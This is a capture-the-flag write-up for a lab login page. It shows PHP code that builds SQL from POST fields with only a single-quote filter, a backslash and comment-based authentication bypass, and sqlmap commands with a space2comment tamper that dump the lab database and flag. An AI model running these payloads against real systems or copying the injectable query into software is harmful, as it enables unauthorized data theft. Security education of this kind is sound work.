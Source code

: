 # WRITEUP

See this. It filter quote.

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
    die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
$sth = $conn->query($sql);
```

<br>
So then, <a href="https://minhtuanact.github.io/post/su-dung-cong-cu-sqlmap-voi-blind-sql-injection-cho-1-bai-ctf/">how can SQL injection bypass quote?</a><br>

Then answer is replace `'` > `\` and `space` > `/**/`.




```sql
select username from users where username='\' and password='OR/**/1=1#'

it same with

select username from users where username=''' and password='OR/**/1=1#'
```
OK, this payload bypass authentication but cannot dump database. 


<br>
Use SQLMap to exploit.

`-u`        &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Target URL <br>
`--data`    &nbsp;&nbsp;&nbsp;: Data string to be sent through POST <br>
`-p`        &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Testable parameter(s) <br>
`--string`  : String to match when query is evaluated to True <br>
`--suffix`  : Injection payload suffix string <br>
`--tamper=space2comment.py`:    Use script replaces space character `(' ')` with comments `'/**/'` for tampering injection data

You can use this for list all tamper
```
# sqlmap --list-tampers
```


<br>
#### Final Payload


```
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py --dbs
...
available databases [2]:
[*] information_schema
[*] myDB
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB --tables
...
[7 tables]
+---------------+
| authors       |
| flag_304ad593 |
| posts         |
| roles         |
| user_post     |
| user_role     |
| users         |
+---------------+
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB -T flag_304ad593 --dump
...
[1 entry]
+-------------------------------------+
| flag_3e53dc                         |
+-------------------------------------+
| CTF{pleAs3_doNt_r3invent_th3_whe3L} |
+-------------------------------------+
...

> CTF{pleAs3_doNt_r3invent_th3_whe3L}


```
